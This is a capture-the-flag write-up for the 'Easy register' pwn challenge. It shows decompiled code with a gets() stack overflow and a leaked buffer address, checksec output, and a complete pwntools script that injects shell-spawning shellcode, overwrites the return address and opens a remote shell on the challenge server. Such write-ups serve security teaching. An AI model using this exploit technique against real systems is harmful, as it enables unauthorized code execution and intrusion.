 # Easy register

```
score: 275
solved: xx/101
difficulty: easy
tags: pwn, shellcode, bof
```

## Problem
```
Registers are easy!

Connect at easyregister.ctf.intigriti.io 7777
Download link: easy_register
Flag format: 1337UP{}
Created by Sebastian Stohr
```
Attached: [easy_regiser](https://downloads.ctf.intigriti.io/1337UPLIVECTF2022-894ff411-aff8-453c-87b1-20ea939a7b6c/easyregister/eb97ef6b-df53-4c3c-bfbf-9c6d436b04d2/easy_register)

## Got the flag
Download and open with `ghidra`, I have pseudocode:
```c
void easy_register(void)

{
  char local_58 [80];
  
  printf("[\x1b[34mi\x1b[0m] Initialized attendee listing at %p.\n",local_58);
  puts("[\x1b[34mi\x1b[0m] Starting registration application.\n");
  printf("Hacker name > ");
  gets(local_58);
  puts("\n[\x1b[32m+\x1b[0m] Registration completed. Enjoy!");
  puts("[\x1b[32m+\x1b[0m] Exiting.");
  return;
}
```
and `checksec` result
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
Easy to get BOF vulnerability at `gets` function.\
The strategy is inject a shell and override return address by our shell to trigger. \
If you know the way to use `pwntools`, you will have easy solver:
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./easy_register_patched")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.DG:
        r = process([exe.path])
        gdb.attach(r, gdbscript = '''
        init-gef\n
        b main\n
        b easy_register\n
        b *0x000127c\n
            ''')
    else:
        r = remote("easyregister.ctf.intigriti.io", 7777)

    return r


def main():
    size = 80
    r = conn()
    
    # get stack address:
    r.recvuntil(b"attendee listing at ")
    add = r.recvuntil(b".\n")[2:-2]
    add = int(add,16)
    log.info(hex(add))

    # insert a shell:
    shellcode = shellcraft.sh()
    payload =b""
    payload += asm(shellcode)
    payload = payload.ljust(size,b"\x01")
    payload += p64(0) # fake ebp
    payload += p64(add) # return to shell
    payload += b"\n"

    r.sendafter(b"Hacker name > ", payload)

    r.interactive()


if __name__ == "__main__":
    main()
```